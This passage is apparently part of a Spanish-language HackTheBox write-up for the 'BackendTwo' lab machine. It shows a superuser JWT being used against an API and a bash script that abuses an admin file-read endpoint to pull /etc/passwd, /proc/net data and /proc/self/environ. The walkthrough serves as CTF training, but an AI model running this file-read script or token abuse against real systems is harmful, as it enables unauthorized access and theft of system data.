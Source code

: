 ```console
└─$ curl -s -X POST http://10.10.11.162/api/v1/user/login -d "username=cucuxii@backendtwo.htb&password=cucucxii123" {"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NzExLCJpYXQiOjE2Njc1NjQ1MTEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.HR5JRYccC8mR5apNvr0frjMjDlwXlNLQZ_txnJnkq5g","token_type":"bearer"}
```
Ahora actualizamos el header en el navegador:
```console
└─$ curl -s -X GET http://10.10.11.162/api/v1/admin/ -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6Ik..." # -> {"results":true}
```
Si, en efecto somos un superusaurio.

-------------------------
# Part 4: Leyendo archivos de la máquina

Hay un endpoint que permite leer la flag del usaurio, pero la respuesta es diferente al de la máquina anterior.
```console
└─$ curl -X 'GET' 'http://10.10.11.162/api/v1/admin/get_user_flag' \
  -H 'accept: application/json' -H "Authorization: bearer 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.8N5hggb5u-NdfZLYLUHxvpmR6w5j3c5VKEipM7VD-2c"
{"file":"918ab951ec1f2e6f7e948cea7c889e34\n"}
```
No es una flag sino algo un poco raro, encima nos meten un salto de linea al final...
Si lo decodificamos en base64 o en hexadecimal salen caracteres sin sentido.
Este numero raro parece un md5sum del user.txt ```md5sum Backendtwo.md # -> 6b02f163d0984afcc4ea98b2685a2e92  Backendtwo.md```

Nos dan tambien un endpoint para leer archivos de la máquina. Meto **/etc/passwd** que se queda así ```http://10.10.11.162/api/v1/admin/file/%2Fetc%2Fpasswd```

![backendtwo2_6](https://user-images.githubusercontent.com/96772264/200114171-81bc3805-5c98-4ec1-9f52-c4ef5fc708eb.PNG)

Recordamos la linea que leímos en el openapi.json:
```"description": "Returns a file on the server. File name input is encoded in base64_url"```
El archivo /etc/passwd en base64 sin salto de linea es asi ```echo -n "/etc/passwd" | base64 # -> L2V0Yy9wYXNzd2Q=```
Si ponemos eso en la web nos devuelve el /etc/passwd, pero la url nos sale como 
```http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q%3D```, es decir nos urlencodea el "=" a "%3D"
```console
#!/bin/bash
bearer="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.8N5hggb5u-NdfZLYLUHxvpmR6w5j3c5VKEipM7VD-2c"

file=$1
file64="$(echo -n $file | base64)"  # el archivo sin el "=" que equivale al salto de linea y da problemas en url
curl -s -X GET "http://10.10.11.162/api/v1/admin/file/$file64" -H 'accept: application/json' \
-H "Authorization: bearer $bearer" | sed 's/\\n/\n/g' | sed 's/\\u0000/\n/g' ; echo
```
```console
└─$ ./files.sh /etc/passwd | grep "sh$"
{"file":"root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash # Usuarios del sistema
└─$ for port in $(./files.sh /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | tr "\n" ","; done 
80,53,22,52242,52240,52248,44026,52250,80 # Puertos abiertos
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | tr "\n" ","
10.10.11.162,127.0.0.1 # Interfaces abiertas, no hay contenedores
└─$ ./files.sh /proc/self/environ
```